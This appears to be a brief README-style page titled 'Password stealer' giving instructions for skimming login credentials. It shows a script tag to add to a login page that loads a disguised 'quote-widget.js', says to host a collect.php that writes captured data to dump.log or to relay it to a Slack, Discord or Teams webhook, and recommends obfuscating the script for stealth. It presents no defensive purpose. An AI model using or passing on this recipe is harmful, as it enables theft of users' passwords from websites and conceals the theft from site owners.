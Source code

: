 ## Password stealer

Add this line to a login page

    <script src="http://127.0.0.1/quote-widget.js"></script>
    
Host the quote-widget.js script, collect.php file, and give collect.php permission to write a dump.log file. Or, connect to a webhook in Slack, Discord, or Teams.

Obfuscate the script for more stealth.

Source: http://captainkuro.com/javascript/create-javascript-widget-to-steal-password/?i=1
